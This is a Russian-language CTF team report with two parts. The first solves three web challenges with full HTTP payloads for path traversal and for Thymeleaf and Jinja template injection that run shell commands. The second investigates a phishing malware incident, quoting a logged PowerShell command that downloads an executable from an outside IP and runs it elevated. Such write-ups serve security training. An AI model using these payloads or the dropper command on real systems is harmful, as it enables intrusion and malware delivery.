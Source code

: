 # Отчёт команды "The Vermillion Team" (No. 26)
## Part 1. Наступательная кибербезопасность.

### Web-10

В этом задании представлена обычная уязвимость **Path Traversal**. На бэкенде можно подгружать любые файлы.
```
GET /download?file_type=..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2fetc%2fsecret HTTP/1.1
Host: 192.168.12.10:5001
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: close
Referer: http://192.168.12.10:5001/
Upgrade-Insecure-Requests: 1
```

Флаг: `nto{P6t9_T77v6RsA1}`


### Web-20

В этом задании пейлоад работает через Spring View Manipulation + SSTI под thymeleaf. Соответственно:
```
GET /doc/__%24%7Bnew%20java.util.Scanner%28T%28java.lang.Runtime%29.getRuntime%28%29.exec%28%22cat%20password.txt%22%29.getInputStream%28%29%29.next%28%29%7D__%3A%3A.x. HTTP/1.1
Host: 192.168.12.13:8090
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: close
Upgrade-Insecure-Requests: 1
```

Отсюда получаем наш пароль и следующим запросом получаем флаг.
```
GET /login?password=33a61c66899af2114c8f98d80ceb2857 HTTP/1.1
Host: 192.168.12.13:8090
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: close
Upgrade-Insecure-Requests: 1
```

Флаг: `nto{abobovichasdfas}`

### Web-30

В этом задании есть фильтр, отсеивающий запросы, начинающиеся с `/flag`. Через // обходим данную проверку. Дальше код в любом случае выполнит наш код независимо от того, содержатся в нем запрещенные символы или нет.
```
GET //flag?name={%7b+self.__init__.__globals__.__builtins__.__import__('os').popen('cat+flag.txt').read()+}} HTTP/1.1
Host: 192.168.12.11:8001
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: close
Upgrade-Insecure-Requests: 1
```

Флаг: `nto{Ht1P_sM088Lin6_88Ti}`


## Part 2. Расследование инцидента.

### 1. Каким образом вредоносное ПО попало на компьютер пользователя? (5 PTS)

Согласно легенде, файл был отправлен Валере незнакомцем. Можно утверждать, что ВПО попало на компьютер пользователя в результате **фишинга** (человеческого фактора).

### 2. С какого сервера была скачана полезная нагрузка? (5 PTS)

Рассмотрим журнал логирования событий Windows. В ходе поиска по ключевому слову `http://` мы нашли следующее вхождение:
```
ProviderName=FileSystem NewProviderState=Started SequenceNumber=7 HostName=ConsoleHost HostVersion=5.1.19041.906 HostId=9da22629-af52-4b50-a1e3-c0b8ad39c1a1 HostApplication=powershell -command ($drop=Join-Path -Path $env:APPDATA -ChildPath Rjomba.exe);(New-Object System.Net.WebClient).DownloadFile('http://95.169.192.220:8080/prikol.exe', $drop); Start-Process -Verb runAs $drop EngineVersion= RunspaceId= PipelineId= CommandName= CommandType= ScriptName= CommandPath= CommandLine=
```

Cледовательно, файл был скачан с сервера `95.169.192.220`.

### 3. С помощью какой уязвимости данное ВПО запустилось? В каком ПО? (5 PTS)

При помощи CVE на WinRAR, выполняющейся в cmd.

### 4. Какие методы противодействия отладке использует программа? (10 PTS)

Встроенные функции (`IsDebuggerPresent()`, `CheckRemoteDebuggerPresent()`) для проверки присутствия отладчика, TLS Callbacks (`TlsAlloc()`, `TlsGetValue()`, `TlsSetValue()`).

### 5. Какой алгоритм шифрования используется при шифровании данных? (10 PTS)

Откроем файл вируса по пути `…/AppData/Roaming/Rjomba.exe`. В нем при использовании команды `binwalk` можно обнаружить `AES S-BOX` и `INVERSE AES S-BOX`. При поиске в обычном текстовом редакторе можно натнуться на сообщения про некорректное использование Cipher Mode. Перебором всех главных режимов работы AES находим упоминание **CBC** (Cipher Block Chaining). Нетрудно обнаружить и поле с упоминанием длины шифроключа (**256** бит). Значит, при шифровании данных использовался протокол *AES-CBC-256*.

### 6. Какой ключ шифрования используется при шифровании данных? (25 PTS)

Значение ключа шифрования хранится в памяти, следовательно, чтобы получить ключ, необходимо осуществить дамп памяти. Одним из инструментов, которые могут помочь нам с этим, является **Process Explorer**. Установим его и перебросим на виртуальную машину. Чтобы избежать антиотладки, переименуем тулзу и запустим Rjomba.exe. Сделаем дамп памяти процесса rjomba.exe. Дальше в этом дампе найдем строки, похожие на ключ (длиной 32):
```bash
strings Rjomba111.dmp | grep -x '.\{32,32\}'
```
Находим значение `amogusamogusamogusamogusamogusam`. Чтобы найти вектор инициализации, сделаем поиск по этой строке:
```bash
strings Rjomba111.dmp | grep -x '.\{16,32\}'
```
\- и найдём вектор иницилизации: `abababababababab`.

### 7. Куда злоумышленник отсылает собранные данные? Каким образом он аутентифицируется на endpoint? (20 PTS)

В том же дампе находим вебхуки `Telegram`. Злоумышленник отсылает собранные данные именно туда, а на endpoint аутентифицируется посредством токена.

### 8. Каково содержимое расшифрованного файла pass.txt на рабочем столе? (40 PTS)

Зная значение ключа, вектора инициализации и значение пароля, возможно однозначно расшифровать сообщение. При помощи инструмента CyberChef получаем итоговый ответ: ```sFYZ#2z9VdUR9sm`3JRz```.
